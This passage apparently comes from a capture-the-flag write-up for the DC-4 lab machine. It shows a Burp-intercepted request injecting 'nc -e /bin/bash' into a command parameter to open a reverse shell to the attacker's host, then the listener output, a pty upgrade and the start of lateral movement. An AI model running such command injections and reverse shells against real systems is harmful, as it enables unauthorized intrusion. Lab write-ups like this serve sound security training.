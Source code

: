 ## Tampering the form

Intercepting the request in BurpSuite shows that the commands are directly passed in the `radio` parameter, and it should be straighforward to inject arbitrary commands (e.g. a reverse shell).

Start a listener (`rlwrap nc -nlvp 4444`), click on the "Run" button and intercept the request in Burp Suite. Tamper the request to send a reverse shell:

~~~
POST /command.php HTTP/1.1
Host: dc-4
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:68.0) Gecko/20100101 Firefox/68.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Referer: http://dc-4/command.php
Content-Type: application/x-www-form-urlencoded
Content-Length: 52
Connection: close
Cookie: PHPSESSID=l7l246d50mg3mohv6ellt25721
Upgrade-Insecure-Requests: 1

radio=nc -e /bin/bash 172.16.222.128 4444&submit=Run
~~~

## Connection as www-data

A reverse shell is not spawned to our listener window:

~~~
kali@kali:/data/DC_4/files$ rlwrap nc -nlvp 4444
listening on [any] 4444 ...
connect to [172.16.222.128] from (UNKNOWN) [172.16.222.159] 50606
which python3
/usr/bin/python3
python3 -c "import pty;pty.spawn('/bin/bash')"
www-data@dc-4:/usr/share/nginx/html$ id
id
uid=33(www-data) gid=33(www-data) groups=33(www-data)
www-data@dc-4:/usr/share/nginx/html$ 
~~~

# Lateral move (www-data -> jim)

## Passwords backup file

Listing the `/home` directory reveals 3 users:

~~~
ls -la /home
total 20
drwxr-xr-x  5 root    root    4096 Apr  7  2019 .
drwxr-xr-x 21 root    root    4096 Apr  5  2019 ..
drwxr-xr-x  2 charles charles 4096 Apr  7  2019 charles
drwxr-xr-x  3 jim     jim     4096 Apr  7  2019 jim
drwxr-xr-x  2 sam     sam     4096 Apr  7  2019 sam
~~~
